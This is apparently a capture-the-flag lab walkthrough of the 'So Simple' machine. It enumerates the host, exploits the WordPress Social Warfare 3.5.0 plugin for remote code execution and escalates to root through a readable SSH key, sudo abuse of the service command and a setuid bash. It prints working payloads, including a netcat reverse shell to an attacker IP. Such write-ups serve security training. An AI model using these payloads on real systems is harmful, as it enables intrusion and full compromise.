 First start enumeration with nmap

```
# Nmap 7.93 scan initiated Fri Mar 10 19:18:26 2023 as: nmap -sC -sV -oN normal.tcp -p 22,80 -Pn 192.168.63.78
Nmap scan report for 192.168.63.78
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 10 19:18:41 2023 -- 1 IP address (1 host up) scanned in 15.40 seconds
```

![image](https://user-images.githubusercontent.com/87468669/224396578-038df6c4-f994-44ef-9faa-abbe0d196784.png)

noticed a web server running on port `80`, opening it on a browser directed us to an homepage with an image `sosimple`. let's fuzz for hidden dir.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/Sosimple]
└─$ dirsearch -u http://192.168.63.78/ -w /usr/share/wordlists/dirb/common.txt -e php,txt,bak,tar,js,zip

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, bak, tar, js, zip | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/n16hth4wk/.dirsearch/reports/192.168.63.78/-_23-03-10_19-34-54.txt

Error Log: /home/n16hth4wk/.dirsearch/logs/errors-23-03-10_19-34-54.log

Target: http://192.168.63.78/

[19:34:55] Starting: 
[19:35:21] 200 -  495B  - /index.html                                       
[19:35:45] 403 -  278B  - /server-status                                    
[19:35:57] 301 -  318B  - /wordpress  ->  http://192.168.63.78/wordpress/   
                                                                             
Task Completed
```
cool we got a `wordpress` directory, let's check it out.

![image](https://user-images.githubusercontent.com/87468669/224399057-b354d6b8-a408-4ed2-9c15-8c4adad62568.png)

navigating to the `/wordpress` directory we can see it is running a wordpress cms. let's check the source page

![image](https://user-images.githubusercontent.com/87468669/224400563-da92235a-3644-41d1-a0ab-2aa93b451ba4.png)

viewing the source page we can see it is running `Social Warfare v3.5.0` plugin, let's search for an exploit to this plugin. 

```
1. Create payload file and host it on a location accessible by a targeted website. Payload content : "<pre>system('cat /etc/passwd')</pre>"

2. Visit http://192.168.63.78/wordpress/wp-admin/admin-post.php?rce=id&swp_debug=load_options&swp_url=http://192.168.49.63/payload.txt"

3. Content of /etc/passwd will be returned 
```

![image](https://user-images.githubusercontent.com/87468669/224411864-0e1e5fab-2ec4-4bdd-889d-97beffa6d163.png)

cool we got RCE, let's replace our `payload.txt` file with a reverse shell.

reverse shell payload: 

```
<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.63 8080 >/tmp/f')</pre>
```

![image](https://user-images.githubusercontent.com/87468669/224412307-958ee1e1-a2d4-4d97-8052-b57ab158258e.png)

ncat listener ready.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/Sosimple]
└─$ ncat -lnvp 8080 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 192.168.63.78.
Ncat: Connection from 192.168.63.78:52888.
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Boom we got a reverse shell.


## Privilege escalation

```
www-data@so-simple:/home/max$ cd .ssh/                                                                                                                            [2/2]
www-data@so-simple:/home/max/.ssh$ ls -al                                                                                                                              
total 20                                                                                                                                                               
drwxr-xr-x 2 max  max  4096 Jul 14  2020 .
drwxr-xr-x 7 max  max  4096 Aug 22  2020 ..
-rw-r--r-- 1 max  max   568 Jul 14  2020 authorized_keys
-rwxr-xr-x 1 root root 2602 Jul 14  2020 id_rsa
-rw-r--r-- 1 root root  568 Jul 14  2020 id_rsa.pub
www-data@so-simple:/home/max/.ssh$ ssh -i id_rsa max@localhost 
Could not create directory '/var/www/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:qo4/EbrJueKB3ta+XB6PT2uNDjKfSgixhQqawjkTPas.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar 10 20:26:52 UTC 2023

  System load:  0.0               Processes:                177
  Usage of /:   53.4% of 8.79GB   Users logged in:          1
  Memory usage: 27%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for ens160:  192.168.63.78


47 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Mar 10 20:24:02 2023 from 127.0.0.1
max@so-simple:~$ 

```
found an `id_rsa` key file in user max `.ssh` directory. so ssh using the `id_rsa` key file and boom we ot shell as user max. let's escalate privs further.

```
max@so-simple:~$ sudo -l
Matching Defaults entries for max on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service
max@so-simple:~$
```
checking sudo privs for user `max`, we can see that user `max` is allowed to run sudo on `/usr/sbin/service` as user `steven`. let's abuse this priv

```
max@so-simple:~$ sudo -u steven /usr/sbin/service
Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]
max@so-simple:~$ sudo -u steven /usr/sbin/service ../../bin/bash
steven@so-simple:/$ id
uid=1001(steven) gid=1001(steven) groups=1001(steven)
steven@so-simple:/$ whoami 
steven
steven@so-simple:/$ 
```
abusing this priv by just typing command `sudo -u steven /usr/sbin/service ../../bin/bash` , we got shell as user steven. let's escalate privs further.

```
steven@so-simple:/home/steven$ sudo -l
Matching Defaults entries for steven on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User steven may run the following commands on so-simple:
    (root) NOPASSWD: /opt/tools/server-health.sh
steven@so-simple:/home/steven$ ls -al /opt/tools/server-health.sh
ls: cannot access '/opt/tools/server-health.sh': No such file or directory
steven@so-simple:/home/steven$ 
```
checking sudo privs for user `steven` we can see that we are allowed to run `/opt/tools/server-health.sh` as root without password. and also we noticed that the file does not exist, let create a file `server-health.sh` in the `/opt/tool` dir, and inject a malicious suid code into it.

```
steven@so-simple:/opt/tools$ touch server-health.sh
steven@so-simple:/opt/tools$ ls
server-health.sh
steven@so-simple:/opt/tools$ echo "chmod +s /bin/bash" > server-health.sh 
steven@so-simple:/opt/tools$ chmod +x server-health.sh 
steven@so-simple:/opt/tools$ sudo /opt/tools/server-health.sh 
steven@so-simple:/opt/tools$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /bin/bash
steven@so-simple:/opt/tools$ /bin/bash -p
bash-5.0# id
uid=1001(steven) gid=1001(steven) euid=0(root) egid=0(root) groups=0(root),1001(steven)
bash-5.0# 
```
created an suid bin that will get us root shell in the `/opt/tools/server-health.sh` file. so running the file as root, got use an suid for `bin/bash` then running `/bin/bash -p` got us root shell.

![image](https://user-images.githubusercontent.com/87468669/224429454-b7f29007-af3b-45b7-bb7e-f300f03d378d.png)

and we are through... 😉
